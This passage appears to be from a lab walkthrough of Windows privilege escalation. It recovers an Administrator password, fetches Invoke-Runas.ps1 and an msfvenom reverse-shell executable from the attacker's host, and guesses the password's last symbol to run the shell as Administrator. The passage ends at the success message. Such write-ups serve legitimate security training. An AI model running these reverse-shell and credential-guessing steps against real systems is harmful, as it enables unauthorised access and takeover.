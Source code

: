 (o)#   /  _  \_______  ____  __ __  ______ #
(o)#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
(o)# /    |    \  | \/ /_/  >  |  /\___ \  #
(o)# \____|__  /__|  \___  /|____//____  > #
(o)#         \/     /_____/            \/  #
(o)#        Weak Password Encryption       #
(o)############ @deathflash1411 ############
(o)
(o)ImWatchingY0u
{{< /bash-code >}}

The last char of the Administrator password could not be converted by the python script. So I checked the python script to see what characters it was missing from its dictionary mapping. The script was missing all symbols other than `!`, so it must be one of them that is the last char in the Administrator password.

I then transfered the `Invoke-Runas.ps1` [script](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1) to the windows machine and dot sourced it.

{{< bash-code >}}
PS C:\Users\viewer> iwr -uri http://192.168.45.229/Invoke-Runas.ps1 -outfile Invoke-Runas.ps1
PS C:\Users\viewer> . .\Invoke-Runas.ps1
{{< /bash-code >}}

I created a `msfvenom` windows exe reverse shell binary and transferred it to the windows machine:

{{< bash-code >}}
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.229 LPORT=80 -f exe -o met80.exe
(o)[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
(o)[-] No arch selected, selecting arch: x86 from the payload
(o)No encoder specified, outputting raw payload
(o)Payload size: 324 bytes
(o)Final size of exe file: 73802 bytes
(o)Saved as: met80.exe
{{< /bash-code >}}

{{< bash-code >}}
PS C:\Users\viewer> iwr -uri http://192.168.45.229/met80.exe -outfile met80.exe
{{< /bash-code >}}

Finally I used the `Invoke-Runas.ps1` script to execute the `msfvenom` reverse shell binary as the Administrator user. Since I did not know the last character of the password but new it must be a symbol, I iterated over the symbol chars.

{{< bash-code >}}
PS C:\Users\viewer> Invoke-Runas -User Administrator -Password 14WatchD0g@  -Binary C:\Users\viewer\met80.exe -LogonType 0x1
(o)
(o)[>] Calling Advapi32::CreateProcessWithLogonW
(o)
(o)[!] Mmm, something went wrong! GetLastError returned:
(o)==> The system could not find the environment option that was entered
(o)
PS C:\Users\viewer> Invoke-Runas -User Administrator -Password 14WatchD0g#  -Binary C:\Users\viewer\met80.exe -LogonType 0x1
(o)
(o)[>] Calling Advapi32::CreateProcessWithLogonW
(o)
(o)[!] Mmm, something went wrong! GetLastError returned:
(o)==> The system could not find the environment option that was entered
(o)
PS C:\Users\viewer> Invoke-Runas -User Administrator -Password 14WatchD0g$  -Binary C:\Users\viewer\met80.exe -LogonType 0x1
(o)
(o)[>] Calling Advapi32::CreateProcessWithLogonW
(o)
(o)[+] Success, process details: